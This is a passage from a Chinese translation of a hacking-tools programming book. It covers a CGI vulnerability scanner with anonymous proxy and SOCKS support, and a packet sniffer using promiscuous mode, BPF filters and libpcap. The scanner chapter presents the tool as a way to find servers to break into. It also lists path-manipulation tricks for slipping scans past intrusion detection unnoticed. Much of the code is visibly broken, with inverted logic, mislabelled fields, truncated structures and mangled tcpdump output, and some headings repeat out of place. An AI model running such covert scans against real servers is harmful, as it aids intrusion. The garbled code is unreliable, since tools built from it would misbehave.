- 向关闭端口发送 UDP 包。某些操作系统遵循 RFC 1812 建议并限制错误消息的传输速度。通过计算在一段时间内收到的错误数量可以确定操作系统。
- 确定 ICMP 消息的长度。ICMP 错误消息的长度因系统而异；因此通过分析收到的 ICMP 错误消息对操作系统做出合理的推断。

你还可以思考并实现其他测试。`nmap` 扫描器在执行 `-O` 命令行选项时会运行一系列此类测试。我不提供实现栈指纹识别的代码，因为到目前为止你应该已经有了足够的知识和技能来轻松地处理这项任务。

## 第 8 章：CGI 扫描器


如今，安全专业人员不再使用通用网关接口（CGI）扫描器这一术语，而是更倾向于使用安全扫描器或漏洞扫描器等术语。当出现 CGI 应用错误时，从安全角度来看，CGI 扫描器显得最为相关。CGI 应用正在逐渐成为过去，并被 PHP 等现代 Web 语言所取代；因此，CGI 应用错误已不再重要。我特意使用“CGI 扫描器”这一历史名称，因为我打算向你们展示如何开发与早期 CGI 扫描器类似的简单应用程序。如果认为 CGI 扫描器只能检测漏洞的 CGI 应用程序，那就是错误的；它可以在远程 Web 服务器上发现其他与 CGI 无关的漏洞文件和脚本，包括用 PHP 编写的脚本。

现代安全扫描器是完整的系统，能够对已知和未知的漏洞进行全方位的安全检查，并提供端口扫描器、密码破解器以及其他黑客工具的功能，这些工具在书中都有所介绍。某些安全扫描器的费用高达数万美元。

第一个广为人知的扫描器是 Whisker，它由绰号为“Rain Forest Puppy”的黑客创建。他在自己的网站（`http://www.wiretrip.net/rfp`）上表示 Whisker 已不再存在，并推荐了另一个基于 Whisker、由黑客 Chris Sullo 开发的扫描器 Nikto。与 Whisker 一样，Nikto 使用 Perl 语言编写的，随着它们的发展，这两个工具都积累了额外的功能，这些功能在用法说明中进行了描述。

## 8.1. CGI 扫描器的工作原理与实现

CGI 扫描器原理非常简单。CGI 扫描器的核心组件是已知漏洞文件和脚本数据库，该数据库由 Bugtraq 消息编译而成。以下是此类数据库中的数据示例：

```
/cgi-bin/account.cgi
/ConfigFiles
/cgi-bin/test-cgi
/cgi-bin/webgais
/scripts/newsdn.exe
/_vti_pvt/*
/catalog_tpp.asp
/cgi-bin/commail
```

扫描器顺序从 Web 服务器请求其数据库中的所有项。如果服务器上存在请求的漏洞文件或脚本，服务器宣布成功，扫描器输出检测到漏洞脚本或文件的消息。通过这种方式，扫描器会遍历整个数据库以及指定的地址范围（如果提供了该功能）。

对于发现的漏洞，如何处理取决于黑客。通常，他们会在互联网上搜索漏洞的描述，并利用这些信息入侵服务器。

列表 8.1 位于本节后面，显示了一个最简单的控制台 CGI 扫描器的源代码。该扫描器支持通过 HTTP 代理进行匿名扫描。必须向扫描器传递以下内容（在命令行输入）：

```
<探测的 Web 节点名称或 IP 地址:<port> [代理服务器名称或 IP 地址]:<port>
```

唯一的强制参数是被探测的 Web 主机名称或 IP 地址。可选端口号指定在冒号之后：`token()` 函数解析传递给扫描器的参数，并将主机名或 IP 地址与端口号分离。如果没有指定端口，则默认使用 80 端口。

漏洞文件和脚本数据库存储在名为 `cgi-bugs.dat` 的文件中。该数据库规模较小，因为我是为了测试扫描器而收集的。因此，它不能用于对 Web 服务器进行严肃的漏洞探测。

CGI 扫描器打开此文件，并在循环中执行 `fgets()` 函数读取其中的每个条目。在每次循环迭代中，使用 `connect()` 函数与远程主机建立连接。远程主机是正在探测的 Web 服务器，或者是在命令行中指定的代理服务器。

扫描器的操作基于应用层协议 HTTP/1.1；因此，根据描述该协议的 RFC 2068 和最新的 RFC 2616，扫描器形成以下请求：

```
GET /path_to_a_script_from_the_server HTTP/1.1
Host: <name or IP address of the Web node probed>
[proxy server name or IP address]:<port>
```

## 第 8 章：CGI 扫描器

CGI 扫描器的源代码以及漏洞脚本数据库文件 `cgi-bugs.dat` 可以在附带光盘的 `/PART II/Chapter 8` 文件夹中找到。

### 列表 8.1. CGI 扫描器的源代码 (cgi-scanner.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>

char *port_host;
char *name;

void token(char *arg) {
    name = strtok(arg, ":");
    port_host = strtok(NULL, ":");
    if (port_host) port_host = "80";
}

int main(int argc, char *argv[]) {
    FILE *fd;
    int sd;
    int bytes;
    char buf[250];
    char str1[270];
    char str2[100];
    struct hostent *host;
    struct sockaddr_in servaddr;

    if (argc < 2 || argc == 3) {
        printf("Usage: %s host[:port] [proxy]:[:port]\n", argv[0]);
        exit(-1);
    }

    fprintf(stderr, "=================================\n");
    fprintf(stderr, " Simple command line CGI scanner ==\n");
    fprintf(stderr, " =by Ivan Sklyaroff, 2006 ==\n");
    fprintf(stderr, "=================================\n");

    if (argc == 3) 
        token(argv[2]);
    else
        token(argv[1]);

    if ((host = gethostbyname(name)) == NULL) {
        herror("gethostbyname failed");
        exit(-1);
    }

    bzero(&servaddr, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(atol(port_host));
    servaddr.sin_addr = (struct in_addr*)host->h_addr;

    if ((fd = fopen("cgi-bugs.dat", "r")) == NULL) {
        perror("fopen(fd) failed");
        exit(-1);
    }

    fprintf(stderr, "Start scanning %s...\n", argv[1]);
    fprintf(stderr, "=======================================\n");

    while (fgets(buf, 250, fd) != NULL) {
        buf[strcspn(buf, "\r\n*")] = 0;
        if (strlen(buf) == 0) continue;

        if ((sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
            perror("socket(sd) failed");
            exit(-1);
        }

        if (connect(sd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == -1) {
            perror("connect(sd) failed");
            exit(-1);
        }

        printf("=======================================\n");
        if (argc == 2) {
            sprintf(str1, "GET %s HTTP/1.1\r\n", buf);
        } else {
            sprintf(str1, "GET http://%s HTTP/1.1\r\n", argv[1]);
            sprintf(str2, "Host:%s\r\n", argv[1]);
        }

        send(sd, str1, strlen(str1), 0);
        printf("%s\n", str1);
        send(sd, str2, strlen(str2), 0);
        printf("%s\n", str2);

        bzero(buf, 250);
        bytes = recv(sd, buf, sizeof(buf)) - 1;
        buf[bytes] = 0;
        printf("%s\n", buf);

        if (strstr(buf, "200 OK") != NULL)
            printf("\nResult: FOUND!!\n\n");
        else
            printf("\nResult: Not Found.\n\n");

        printf("=========================\n");
        close(sd);
    }

    fprintf(stderr, " %s\n\n", argv[1]);
    fprintf(stderr, "=========================\n");
    close(fd);
    return 0;
}
```

## 8.2. 改进基础 CGI 扫描器

第 8.1 节中描述的 CGI 扫描器速度很慢。改进其平庸性能的一种方法是使用多线程能力；另一种更好的方法是为它配备非阻塞套接字支持。这两项增强在第 7 章中都被考虑过。

现在有越来越多的 Web 服务器使用基于 SSL 的 HTTP (HTTPS) 来加密流量。为了让你的 CGI 扫描器能够探索此类服务器，你需要在代码中添加 SSL 支持。如何实现这一点将在第 10 节中讨论。

HTTP/1.1 是互联网的主要协议，但如果你遇到一个只支持过时的 1.0 版本的服务器怎么办？对 HTTP/1.0 服务器的请求相对于 HTTP/1.1 服务器的请求是匿名的，只有 Host 字段除外：

```
GET /path/to/script HTTP/1.0\r\n
```

HTTP/1.0 在 RFC 1945 中描述。此外，为你的扫描器配备一个代理服务器列表并能够指定扫描地址也是一个好主意。

### 8.2.1. 绕过入侵检测系统

由于检测服务器中的漏洞会防止服务器管理员检测到你的活动，因此，扫描器可以配备简单的绕过入侵检测系统的手段。以下是实现这种操作的一些建议：

- 在请求中使用 `../` 替换：

```
GET /../script.cgi HTTP/1.1\r\n
GET /../../script.cgi HTTP/1.1\r\n
GET /../../../script.cgi HTTP/1.1\r\n
```

- 连续使用多个 `../` 序列：

```
GET /script.cgi HTTP/1.1\r\n
GET /../script.cgi HTTP/1.1\r\n
GET /////script.cgi HTTP/1.1\r\n
```

- 使用 `..` 字符串添加虚假路径，这意味着该字符串之前指定的目录将被忽略：

```
GET /fictional/../script.cgi HTTP/1.1\r\n
GET /fictional/../../script.cgi HTTP/1.1\r\n
```

### 8.2.2. 使用 SOCKS 代理

另一种增强 CGI 扫描器的方法是添加对 SOCKS 代理（版本 4 和 5）的支持。SOCKS 第五版本在 RFC 1928 中描述。这两个版本的共同之处是支持身份验证、支持 UDP 以及解析主机名。

SOCKS 的连接分为两个阶段。在第一阶段，服务器传递目标。在第二阶段，服务器进行身份验证。

客户端发送的 SOCKS 握手消息格式如下：

- 1 字节：版本号
- 1 字节：方法数量 (N)
- N 字节：客户端支持的方法列表

第一个字节是 SOCKS 版本：`0x05` 表示版本 5，`0x04` 表示版本 4。下一个字节是客户端支持的连接和认证方法；`0x00` 表示无身份验证连接，`0x02` 表示可以提供用户名和密码；SOCKS 身份验证在 RFC 1929 中描述。

服务器必须用两个字节回答 SOCKS 握手：第一个是版本，第二个是从提供的列表中选择的连接认证方法。如果代理没有发现提供的任何方法，客户端的第二个字节将为 `0xFF`，此时无法与该服务器继续工作。`0x00` 的值允许客户端进入下一阶段。

在第二阶段，客户端必须调用它想要连接的 SOCKS 连接方法。为此，它发送一个包含以下内容的包：

- 1 字节：版本号
- 1 字节：命令
- 1 字节：预留（始终设置为 `0x00`）
- 1 字节：地址类型，紧随其后
- 2 字节：远程主机的地址
- 2 字节：远程主机上的端口

命令字节可以是以下值之一：`0x01` 表示简单连接，`0x02` 表示 BIND 命令，或 `0x03` 表示 ASSOCI 命令（用于 SOCKS5 的 UDP）。

地址字节告诉 SOCKS 服务器远程主机的地址；它可以是以下值之一：`0x01` 表示 IPv4 地址，后接 4 字节网络格式地址；`0x03` 表示普通字符串的主机（在这种情况下 SOCKS 服务器必须将主机转换为相应的 IP 地址，并非所有 SOCKS 服务器都能做到），或 `0x04` 表示网络格式的 IPv6 地址。

在对此包的响应中，SOCKS 服务器发送一个结构相同但值不同的包。例如，如果响应的第二个字节对于请求的命令不是 0，则建立连接出错，客户端必须断开连接。地址类型本身也可以发生变化；因此，如果请求地址是以主机名发送的，那么在响应中它应该是相应的 IP 地址。

如果回复中没有错误，则进入第二阶段：

```c
if ((greeting_ans[1] != 0xFF) || (greeting_ans[0] == 0x05)) {
    // 填充结构体字段
    temp.ver = 0x05;
    temp.cmd = 0x01;
    temp.type = 0x01;
    temp.rv = 0x00;

    // 假设主机 IP 地址存储在 sa 结构体中
    // 并从那里拷贝到 temp.addr 字段
    memcpy(temp.addr, &sa.sin_addr, 4);

    // 端口必须以网络格式指定
    temp.sport = htons(80);

    // 发送数据包
    send(sd, (char*)&temp, sizeof(temp), 0);

    // 接收的回复必须在相同的结构体中
    recv(sd, (char*)&temp, sizeof(temp), 0);

    // 检查回复是否有任何错误
    if ((temp.rv == 0) || (temp.cmd == 0)) {
        // 如果连接成功，在此处转移控制
        // 现在所有数据将通过 SOCKS 传输
        // 例如，发送一个请求
        sprintf(str1, "GET /HTTP/1.1\r\n");
        sprintf(str2, "Host:www.example.com\r\n\n");
        send(sd, str1, strlen(str1), 0);
        send(sd, str2, strlen(str2), 0);
    }
}
```


# 第 9 章：嗅探器


嗅探器是一种网络流量分析器。通常，任何网络分析器都被称为 sniffer，但“sniffer”一词是 Network Associates 的注册商标，该公司以该名称销售其网络分析器。

嗅探器可以作为普通的软件包实现，也可以作为用于分析特定网络环境中流量的软硬件设备。本书仅考虑软件嗅探器，它们可以安装在配备网卡的普通计算机上，并拦截以太网网络流量。

根据软件嗅探器监控网络的方式，它们分为两类：被动式和主动式。

被动式嗅探器只能分析通过其安装的计算机网卡的流量。主动式嗅探器可以强制将另一个网段的必要流量引导到它的计算机。本章考虑了这两种类型的嗅探器。虽然理解本章介绍的内容并非强制要求，但我的书籍《黑客解谜之道》（Puzzles for Hackers）中的问题 2.2 提供了关于该主题的额外信息。

## 9.1 被动式嗅探器

本节稍后的列表 9.2 显示了最简单的被动嗅探器的源代码。你也可以在附 CD-ROM 的 `/PART II/Chapter 9` 目录中找到它。

由于该嗅探器分析接收到的数据包中所有层的头部，包括数据链路（以太网）头部，因此程序需要创建一个数据包套字（见第 3.5.3 节）。

一个以太网数据包的大小不能超过 1,500 字节，因此准备了一个名为 `buf[1500]` 的相应接收缓冲区。

默认情况下，网卡只接收专门发送给它的数据包。嗅探器必须接收网段中的所有数据包以便后续分析；因此，必须首先将网卡切换到混杂模式。这将允许它接收所有数据包，无论目标地是什么。可以使用 `ifconfig` 实用启用混杂模式（见第 1.2 节），但一个功能完整的嗅探器必须能够通过程序自行开启混杂模式。混杂模式由列表 9.1 所示的代码启用。

### 列表 9.1 设置混杂模式

```c
struct ifreq ifr;

strcpy(ifr.ifr_name, DEVICE);

/* 获取标志位值 */
if (ioctl(sd, SIOCGIFFLAGS, &ifr) < 0) {
    perror("ioctl() failed");
    close(sd);
    exit(-1);
}

/* 添加新标志位 */
ifr.ifr_flags |= IFF_PROMISC;

/* 将接口标志位设置为新值 */
if (ioctl(sd, SIOCIFFLAGS, &ifr) < 0) {
    perror("ioctl() failed");
    close(sd);
    exit(-1);
}
```

然后启动一个无限循环，在循环中使用 `recvfrom()` 函数接收数据包，当传递接收到的数据包的指针时调用该函数。`PrintHeaders()` 函数解析数据包以获取各个头部，并将头部字段的值输出到屏幕上。嗅探器仅分析以太网协议、ARP、TCP、UDP 和 ICMP 的头部。然而，可以向程序中添加分析其他类型头部的功能。你可以自己作为作业来完成。要访问网络头部，必须首先定义几个指针：

```c
struct ethhdr *eth;
struct iphdr *ip;
struct arphdr *arp;
struct tcphdr *tcp;
```

```c
printf("%.2x:%2x:%2x:%2x:%2x:%2x\n", eth_h_dest[0], eth_h_dest[1], eth_h_dest[2],
    eth_h_dest[3], eth_h_dest[4], eth_h_dest[5]);
printf("Packet type ID %d\n", ntohs(eth_h_proto));

if ((ntohs(eth_h_proto) == ETH_ARP) ||
    (ntohs(eth_h_proto) == ETH_ARP_PARP)) {
    arp = (struct arphdr *)(data + sizeof(struct ethhdr));
}

printf("ARP_HEADER====================\n");
printf("Format of hardware address %d\n", ntohs(arp->ar_hdr));
printf("Format of protocol address %d\n", arp->ar_hin);
printf("Length MAC %d\n", arp->ar_pl);
printf("Length IP %d\n", ntohs(arp->ar_op));
printf("ARP opcode %.2x:%2x:%2x:%2x:%2x:%2x\n",
    arp->ar_sha[0],
    arp->ar_sha[1],
    arp->ar_sha[2],
    arp->ar_sha[3],
    arp->ar_sha[4],
    arp->ar_sha[5],
    arp->ar_sha[6]);
printf("Sender IP address %d.%d.%d.%d\n",
    arp->ar_tip[0],
    arp->ar_tip[1],
    arp->ar_tip[2],
    arp->ar_tip[3]);
printf("Target hardware address %.2x:%2x:%2x:%2x:%2x:%2x\n",
    arp->ar_tha[0],
    arp->ar_tha[1],
    arp->ar_tha[2],
    arp->ar_tha[3],
    arp->ar_tha[4],
    arp->ar_tha[5],
    arp->ar_tha[6]);
printf("Target IP address %d.%d.%d.%d\n",
    arp->ar_tip[0],
    arp->ar_tip[1],
    arp->ar_tip[2],
    arp->ar_tip[3]);
printf("####################################\n");
printf("######################################");

if (ntohs(eth_h_proto) == ETH_IP) {
    ip = (struct iphdr *)(data + sizeof(struct ethhdr));
    printf("IP_HEADER________________====\n");
    printf("IP version %d\n", ip->version);
    printf("IP header length %d\n", ip->ihl);
    printf("TOS %d\n", ip->tos);

    printf("Total length %d\n", ntohs(ip->tot_len));
    printf("ID %d\n", ntohs(ip->id));
    printf("Fragment offset %#x\n", ntohs(ip->frag_off));
    printf("MF %d\n", ntohs(ip->frag_off) & IP_MF ? 1 : 0);
    printf("DF %d\n", ntohs(ip->frag_off) & IP_DF ? 1 : 0);
    printf("TTL %d\n", ip->ttl);
    printf("Protocol %d\n", ntohs(ip->protocol));
    printf("IP source %s\n", inet_ntoa(ip->saddr));
    printf("IP destination %s\n", inet_ntoa(ip->daddr));

    if (ip->protocol == IPPROTO_TCP) {
        struct tcphdr *tcp = (struct tcphdr *)(data + sizeof(struct ethhdr) + sizeof(struct iphdr));
        printf("-----TCP_HEADER==============\n");
        printf("Port source %d\n", ntohs(tcp->source));
        printf("Port destination %d\n", ntohs(tcp->dest));
        printf("Sequence number %u\n", ntohs(tcp->seq));
        printf("Ack number %u\n", ntohs(tcp->ack_seq));
        printf("Data offset %d\n", tcp->doff);
        printf("FIN%d, SYN%d\n", tcp->fin, tcp->syn);
        printf("RST%d, PSH%d\n", tcp->rst, tcp->psh);
        printf("ACK%d, URG%d\n", tcp->ack, tcp->urg);
        printf("URG pointer %d\n", ntohs(tcp->urg));
        printf("ECE%d\n", tcp->ece);
        printf("Window %d\n", ntohs(tcp->window));
        printf("Urgent pointer %d\n", ntohs(tcp->urg_ptr));
    }

    if (ip->protocol == IPPROTO_UDP) {
        struct udphdr *udp = (struct udphdr *)(data + sizeof(struct ethhdr) + sizeof(struct iphdr));
        printf("-----UDP_HEADER==============\n");
        printf("Port source %d\n", ntohs(udp->source));
        printf("Port destination %d\n", ntohs(udp->dest));
        printf("Length %d\n", ntohs(udp->len));
    }

    if (ip->protocol == IPPROTO_ICMP) {
        struct icmphdr *icmp = (struct icmphdr *)(data + sizeof(struct ethhdr) + sizeof(struct iphdr));
        printf("-----ICMP_HEADER--------------\n");
        printf("Type %d\n", icmp->type);
        printf("Code %d\n", icmp->code);
    }
}
```

## 9.1 数据包过滤器

为了使用 BPF，必须包含 `<net/bpf.h>`。在许多 Unix 系统中，访问 BPF 需要打开 `/dev/pfX`。对于程序，必须定义 `bpf_program` 结构。

以下是该结构在 `bpf.h` 中的定义：

```c
u_char  jf;    /* 如果为假则跳转。 */
bpf_int32 k;     /* 通用字段 */
);
```

`code` 字段包含指令码，`it` 和 `jf` 字段修改过滤程序中的指令执行顺序，而 `k` 字段持有指令操作数的值。

总共有八类指令：`BPF_LD`、`BPF_LDX`、`BPF_ST`、`BPF_STX`、`BPF_ALU`、`BPF_JUMP`、`BPF_RET` 和 `BPF_MISC`。每一类的描述在后文。`net/bpf.h` 头文件包含了宏定义，这使得开发过滤程序的任务变得更容易：

```c
#define BPF_STMT(code, k) { (u_short)(code), 0, 0, k }
#define BPF_JUMP(code, k, jt, jf) { (u_short)(code), jt, jf, k }
```

### BPF_LD

`BPF_LD` 将值加载到累加器中。这些值可以是以下类型之一：

- 常数 (`BPF_IMM`)
- 位于固定偏移处的数据包数据 (`BPF_ABS`)
- 位于变量偏移处的数据包数据 (`BPF_IND`)
- 数据包长度 (`BPF_LEN`)
- 内存值 (`BPF_MEM`)

加载 `BPF_IND` 和 `BPF_ABS` 值的大小必须指定为字（`BPF_W`）、半字（`BPF_H`）或字节（`BPF_B`）。对于 32 位处理器，一个字是 4 字节。

以下示例显示了如何将 4 字节、2 字节和 1 字节的数据包数据加载到累加器中。数据包中的偏移量由常量 `k` 指定。

```c
BPF_LD + BPF_W + BPF_ABS A <- P[k:4]
BPF_LD + BPF_H + BPF_ABS A <- P[k:2]
BPF_LD + BPF_B + BPF_ABS A <- P[k:1]
```

以下示例显示了如何加载 4 字节、2 字节和 1 字节的数据包数据。数据块中的偏移量由变量 `x` 和常量 `k` 之和指定。变量 `x` 存储在索引寄存器中。

```c
BPF_LD + BPF_W + BPF_IND A <- P[x + k:4]
BPF_LD + BPF_H + BPF_IND A <- P[x + k:2]
BPF_LD + BPF_B + BPF_IND A <- P[x + k:1]
```

数据包长度被加载到累加器中：

```c
BPF_LD + BPF_W + BPF_LEN A <- len
```

常量 `k` 被加载到累加器中：

```c
BPF_LD + BPF_IMM A <- k
```

存储在地址 `k` 处的内存值被加载到累加器中：

```c
BPF_LD + BPF_MEM A <- M[k]
```

### BPF_LDX

`BPF_LDX` 指令将值加载到索引寄存器中。该值可以是以下类型之一：

- 常数 (`BPF_IMM`)
- 数据包长度 (`BPF_LEN`)
- 内存值 (`BPF_MEM`)
- 数据包 IP 头部的长度 (`BPF_MSH`)

以下是使用该指令的示例。
一个字大小的值 `k` 被加载到索引寄存器中：

```c
BPF_LDX + BPF_W + BPF_IMM X <- k
```

存储在 `k` 处的内存值被加载到索引寄存器中：

```c
BPF_LDX + BPF_W + BPF_MEM X <- M[k]
```

数据包长度被加载到索引寄存器中：

```c
BPF_LDX + BPF_W + BPF_LEN X <- len
```

数据包 IP 头部的长度被加载到索引寄存器中：

```c
BPF_LDX + BPF_B + BPF_MSH X <- 4*(k:1)&0xf
```

### BPF_ST

`BPF_ST` 指令将值从累加器加载到内存中：

```c
BPF_ST M[k] <- A
```

内存单元的地址由值 `k` 指定。

### BPF_STX

`BPF_STX` 指令将值从索引寄存器加载到内存中：

```c
BPF_STX M[k] <- A
```

内存单元的地址由值 `k` 指定。

### BPF_ALU

`BPF_ALU` 指令对累加器和索引寄存器中的值，或对累加器和常数执行算术和逻辑运算；并将结果存储在累加器中。以下是使用该指令的示例：

```c
BPF_ALU + BPF_ADD + BPF_K A <- A + k
BPF_ALU + BPF_SUB + BPF_K A <- A - k
BPF_ALU + BPF_MUL + BPF_K A <- A * k
BPF_ALU + BPF_DIV + BPF_K A <- A / k
BPF_ALU + BPF_AND + BPF_K A <- A & k
BPF_ALU + BPF_OR + BPF_K A <- A | k
BPF_ALU + BPF_LSH + BPF_K A <- A << k
BPF_ALU + BPF_RSH + BPF_K A <- A >> k
BPF_ALU + BPF_ADD + BPF_X A <- A - X
BPF_ALU + BPF_SUB + BPF_X A <- A - X
BPF_ALU + BPF_MUL + BPF_X A <- A * X
BPF_ALU + BPF_DIV + BPF_X A <- A / X
BPF_ALU + BPF_AND + BPF_X A <- A & X
BPF_ALU + BPF_OR + BPF_X A <- A | X
BPF_ALU + BPF_LSH + BPF_X A <- A << k
BPF_ALU + BPF_RSH + BPF_X A <- A >> k
```

### BPF_JMP

`BPF_JMP` 指令改变执行顺序。该指令可以执行条件跳转（`JGT`, `JGE`, `JSET`）和无条件跳转（`JA`）。对于条件跳转，累加器中的值与常量 `k` 或索引寄存器中的值进行比较。对于无条件跳转，偏移量由位值指定。

以下是使用该指令的示例。
无条件跳转由以下内容指定：

```c
BPF_JMP + JA
```

条件跳转由以下内容指定：

```c
BPF_JMP + JEQ
```


## `bpf_program` 结构体

```c
struct bpf_program {
    u_short bpf_len;           // 结构数量
    struct bpf_insn *bpf_insns; // 指向 bpf_insn 数组的指针
};
```

构建过滤程序后，将填充结构体的字段。`bpf_insns` 字段存储指向过滤程序的指针，而 `bpf_len` 字段存储结构的数量。

### 列表 9.3 过滤程序

```c
struct bpf_insn filter_app[] = {
    // 将偏移量 12 处的 2 字节加载到累加器中。这持有接收数据包的以太网头部。字节包含了网络层协议的标识符。
    BPF_STMT(BPF_LD + BPF_H + BPF_ABS, 12),

    // 将累加器中的值与 IP 标识符 (ETH_IP = 0x0800) 进行比较。
    // 如果条件满足，跳转到下一指令（jf = 0）；否则向下跳转 12 层（jf = 12）并离开过滤程序，返回零。
    BPF_JUMP(BPF_JMP + BPF_BEQ + BPF_K, ETH_IP, 0, 12),

    // 将偏移量 23 处的 1 字节加载到累加器中。这持有传输层协议的标识符。对于 UDP，此值为 17。
    BPF_STMT(BPF_LD + BPF_B + BPF_ABS, 23),

    // 检查该值是否对应于必要的传输协议。
    // 如果条件满足，跳转到下一指令（jf = 0）；否则向下跳转 10 个结构（jf = 10）并离开过滤程序，返回零。
    BPF_JUMP(BPF_JMP + BPF_BEQ + BPF_K, 17, 0, 10),

    // 终止程序
    BPF_STMT(BPF_RET, 0)
};
```

## 第二部分：网络 BPF 黑客工具

```c
BPF_JUMP (BPF_JMP + BPF_JEQ + BPF_IPPROTO_UDP, 0, 10),
```

/* 将接收到的包中偏移 26 处的 4 字节值加载到累加器中。
该值是源 IP 地址。 */

```c
BPF_STMT (BPF_LD + BPF_W + BPF_ABS, 26),
```

/* 将累加器中的值与 IP 地址 192.168.10.130 进行比较。值 0xC0A082 是该 IP 地址在小端格式下的十六进制表示。
如果不匹配，则退出过滤程序。 */

```c
BPF_JUMP (BPF_JMP + BPF_JEQ + BPF_K, 0xC0A082, 0, 8),
```

/* 加载目的 IP（位于偏移 30 处），并将其与地址 192.168.10.11 进行比较。
如果地址不匹配，则退出过滤程序。 */

```c
BPF_STMT (BPF_LD + BPF_W + BPF_ABS, 30),
BPF_JUMP (BPF_JMP + BPF_JEQ + BPF_K, 0xC0A08A01, 0, 6),
```

/* 检查源端口字段是否为 777 (0x309)。首先必须确定 IP 头部长度。 */

```c
BPF_STMT (BPF_LDX + BPF_B + BPF_MSH, 14),
```

/* IP 头部长度将被加载到索引寄存器。源端口字段位于以太网头部和 IP 头部长度之和为偏移处。将其加载到累加器中。 */

```c
BPF_STMT (BPF_LD + BPF_H + BPF_IND, 14),
```

/* 检查获取到的值。 */

```c
BPF_STMT (BPF_LD + BPF_H + BPF_IND, 16),
BPF_JUMP (BPF_JMP + BPF_JEQ + BPF_K, 0, 0, 3),
```

/* 退出过滤程序。 */

```c
BPF_STMT (BPF_RET + BPF_K, 1500),
BPF_STMT (BPF_RET + BPF_K, 0),
);
```

现在过滤程序已经组装完成，填充 `bpf_program` 结构体的字段：

```c
bpf.len = 15; // 过滤程序中的结构体数量
bpf.insns = filter_ptr; // 指向过滤程序的指针
```

让过滤器工作的最后一步是按如下所示调用 `setsockopt()` 函数将其附加到套字上：

```c
if (setsockopt(sd, SOCK_SOCKET, SO_ATTACH_FILTER, &bp, sizeof(bp)) < 0) {
    perror("SO_ATTACH_FILTER");
    close(sd);
    exit(-1);
}
```

尽管过滤程序按预期工作，但它有一个严重的缺点。源数据（即 IP 地址和端口号）被指定在程序的源代码中。

## 第 9 章：嗅探器

因此，每当过滤条件改变时，都必须修改源代码并重新编译程序。
这可以解决，可以在启动嗅探器时在命令行指定 IP 地址和端口号。通过将包含 IP 地址和端口号的字段置零来实现：

```c
BPF_JUMP(BPF_JMP + BPF_BEQ, 0, 0, 8), // 第 6 个元素
BPF_JUMP(BPF_JMP + BPF_BEQ, 0, 0, 6), // 第 8 个元素
BPF_JUMP(BPF_JMP + BPF_BEQ, 0, 0, 3), // 第 11 个元素
BPF_JUMP(BPF_JMP + BPF_BEQ, 0, 0, 1), // 第 13 个元素
```

现在，使用以下语句填充这些字段：

```c
filter_app[5].k = swab32(source_ip);
filter_app[7].k = swab32(dest_ip);
filter_app[10].k = sport;
filter_app[12].k = dport;
```

替换值从命令行获取：

```c
source_ip = inet_addr(argv[1]);
sport = atol(argv[2]);
dest_ip = inet_addr(argv[3]);
dport = atol(argv[4]);
```

`swab32()` 宏用于将 IP 地址转换为网络字节序。该宏定义在 `<linux/byteorder/swab.h>` 头文件中。
`tcpdump` 工具有助于组装过滤程序。使用 `-d` 选项运行时，该工具会转储过滤程序的名称和编号。`-dd` 选项以 C 程序的形式转储过滤程序。这是一个示例：

```bash
# tcpdump -dd udp and src host 192.168.10.130 and src port 777 and dst port 80
192.168.10.1 and dst 0xffffff;

{28, 0, 0x000000},
{15, 0, 0x00000008},
{30, 0, 0x00000009},
{15, 0, 0x00000011},
{20, 0, 0x0000000c},
{15, 0, 0x0000a082},
{28, 0, 0x00000006},
{45, 8, 0x00001fff},
{01, 0, 0x00000000},
{46, 0, 0x00000000},
{15, 5, 0x00000309},
{20, 0, 0x00000010},
{15, 3, 0x00c0a0a1},
{48, 0, 0x00000002},
{15, 1, 0x00000003},
{06, 0, 0x0000ffff},
{06, 0, 0x00000000};
```

使用 BPF 的被动嗅探器源代码 `sk_sniffer_bpf.c` 可以在随附 CD 的第二部分第 4 章找到。

## 9.1.2 使用 libpcap 库的嗅探器

使用 BPF 开发过滤程序是一项艰巨的任务。通过使用 Van Jacobson、Craig Rees 和 Steve McCann 创建的 libpcap 库，程序员特别是创建过滤器的任务变得容易得多。libpcap 库被许多著名工具使用，例如 tcpdump 和 Ettercap 流量分析器以及 Snort 入侵防御系统。

libpcap 库存在于许多其他操作系统，包括 Windows；这意味着它可以创建迁移应用程序。libpcap 库的最新版本可以在 http://www.tcpdump.org 找到。此外，大多数 Linux 发行版都自带该库。

使用 libpcap 开发的程序必须具有 root 权限或设置 SUID 位。使用 libpcap 库的程序完成任务的典型步骤序列如下：

1. 识别网络接口。
2. 打开网络接口并创建会话。
3. 如果需要，创建过滤器。
4. 捕获并处理数据。
5. 关闭会话。

以下是每个步骤的详细说明。

### 9.1.2.1 识别网络接口

创建用于监听的网络接口有三种主要方法。
第一种方法未使用 libpcap 库，接口名称硬编码在程序中。这种方法在之前的程序中使用过。

```c
#define DEVICE "eth0"
```

用户也可以通过命令行将接口名称传递给程序。第二种方法使用 libpcap 库的 `pcap_lookupdev()` 函数：

```c
#include <pcap.h>
...
char *dev;
char errbuf[PCAP_ERRBUF_SIZE];
dev = pcap_lookupdev(errbuf);
if (dev == NULL) {
    fprintf(stderr, "%s", errbuf);
    exit(-1);
}
```

在这种情况下，`dev` 变量将被设置为合适接口的名称。如果 `pcap_lookupdev()` 函数产生错误，其描述将传递给 `errbuf` 缓冲区。
`pcap_lookupdev()` 函数的原型如下：

```c
char *pcap_lookupdev(char *errbuf);
```

使用 libpcap 库的程序必须包含 `pcap.h` 头文件。
第三种方法中，用户可以从列表中选择接口。该列表使用 libpcap 库的 `pcap_findalldevs()` 函数准备：

```c
#include <pcap.h>
...
pcap_if_t *alldevsp;
char errbuf[PCAP_ERRBUF_SIZE];
if (pcap_findalldevs(&alldevsp, errbuf) < 0) {
    fprintf(stderr, "%s", errbuf);
    exit(-1);
}
while (alldevsp != NULL) {
    printf("%s\n", alldevsp->name);
    alldevsp = alldevsp->next;
}
```

`pcap_findalldevs()` 函数返回指向 `pcap_if_t` 的指针，并返回一个包含接口信息的链表。如果 `pcap_findalldevs()` 函数产生错误，其描述将传递给 `errbuf` 缓冲区。
`pcap_if_t`（该类型派自 `pcap_if`）是一个包含可以使用信息的结构体：

```c
typedef struct pcap_if pcap_if_t;
struct pcap_if {
    struct pcap_if *next;      /* 指向下一个项的指针 */
    char *name;                /* 接口名称 */
    char *description;         /* 接口的文本描述或 NULL */
